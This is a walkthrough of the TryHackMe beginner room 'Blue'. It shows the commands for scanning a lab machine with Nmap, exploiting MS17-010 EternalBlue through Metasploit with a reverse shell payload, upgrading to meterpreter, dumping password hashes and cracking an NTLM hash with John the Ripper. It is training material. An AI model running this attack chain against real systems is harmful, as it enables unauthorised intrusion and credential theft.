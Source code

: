 ```yaml
---
description: 'This is my walkthrough for the TryHackMe Room: Blue.'
---
```


# Blue

The room can be found [here](https://tryhackme.com/room/blue). This is a pretty straight forward room, the hints and video will pretty much help anyone through it as that's what this room is meant for, to help beginners learn.

## Task 1

### Question #1: Scan the machine

We'll scan the machine with Nmap first: sudo nmap -sS -sV -vv --script vuln -oA Blue 10.10.18.94

### Question #2: How many ports are open with a port number under 1000?

Looking through our scan results we can see:\


![Nmap Scan](<../.gitbook/assets/image (130).png>)

We can find our answer pretty easily.

### Question #3: What is this machine vulnerable to?

Our argument of --script vuln scanned the target for any known vulnerabilities, which returned:

![](<../.gitbook/assets/image (16) (1) (2).png>)

showing the target is vulnerable to: ms17-010

## Task 2

### Question #2: Find the exploitation code we will run against the machine. What is the full path of the code?

With Metasploit up and loaded we search for ms17-010. `search ms17-010`

![](<../.gitbook/assets/image (61).png>)

We can see a couple different modules but as this room is called "Blue" we can guess we're after the Eternal Blue module "exploit/windows/smb/ms17\_010\_eternalblue". Knowing that is the module we want we can type out "use exploit/windows/smb/ms17\_010\_eternalblue" OR use # as in the number next to the module. For me it's 0.

Usually when selecting a module it's good to run `show options` to see what options are required to be set for this module to run. In this case, the only option that is not already set for us is the RHOST option, or our target. We set that with `set rhosts 10.10.18.94` and can verify by running `show options` again.

The room does specify one more thing before we exploit the target, it would like us to change the payload to "windows/x64/shell/reverse\_tcp" by running `set payload windows/x64/shell/reverse_tcp`.

With this payload option set, we can type `run` or `exploit` to get our shell on our target.

![](<../.gitbook/assets/image (10) (2).png>)

## Task 3

Background our newly obtained shell with CTRL+Z.

### Question #1: Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use?

There's a few ways to obtain the answer to this question but rather than use google, we can do what we did before and search within metasploit. `search shell_to_meterpreter`

this should return `post/multi/manage/shell_to_meterpreter`. So let select this module with `use 0`

### Question 2: Show options, what option are we required to change?

As mentioned before, when selecting a module to use, it's usually good to run `show options` to see what options are required to be set to run this module. Running this will show you we need to set the SESSION with `set SESSION 1`.

Once that completes, reconnect back to the backgrounded session with `sessions -i 2` and verify we are the SYSTEM by running `getsystem`, we can also type `shell` and run `whoami`.

![](<../.gitbook/assets/image (154).png>)

Now we want migrate to a different process that is running as SYSTEM, so lets background that shell again with `CTRL+Z(Only do this IF we are in the shell and not in the meterpreter session.)`, and let's see whats other processes are running on this system by typing `ps`. Once we find a process that is already being run from the `NT AUTHORITY\SYSTEM` user, we want to take note of the PID, for example, conhost.exe, for me that PID is 2480. We can run `migrate 2480` to then migrate over to that process.

This may or may not work for you so try different processes to migrate to.

## Task 4

### Question #1: What is the name of the non-default user?

From our meterpreter session, we can run hashdump to show us all the users and hashed passwords of the users on the system.

![](<../.gitbook/assets/image (67).png>)

### Question #2: Copy this password hash to a file and research how to crack it. What is the cracked password?

Once we copy Jons NTLM hash `Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::`. We can crack it for this we will use JohnTheRipper. I am running this from a personally setup VM so I have John installed into the /opt/ directory and will be using the classic rockyou.txt that I have stored inside SecLists password directory.

I have copied Jons hash to a file called jonhash in my current directory. So poninting JohnTheTipper at the hash and specifying the hash format and selecting the wordlist we want to use, we can attempt to crack the hash. `sudo /opt/john/run/john jon --format=NT --wordlist=/opt/SecLists/Passwords/rockyou.txt`

![](<../.gitbook/assets/image (6) (3).png>)

## Task 5

I ran `search -f flag*.txt` from the meterpreter session and was able to locate the path to flags1 2 and 3. So you can then cat the file paths to obtains the flags as well:

cat c:\\\flag1.txt

cat c:\\\Windows\\\System32\\\config\\\flag2.txt

cat c:\\\Users\\\Jon\\\Documents\\\flag3.txt
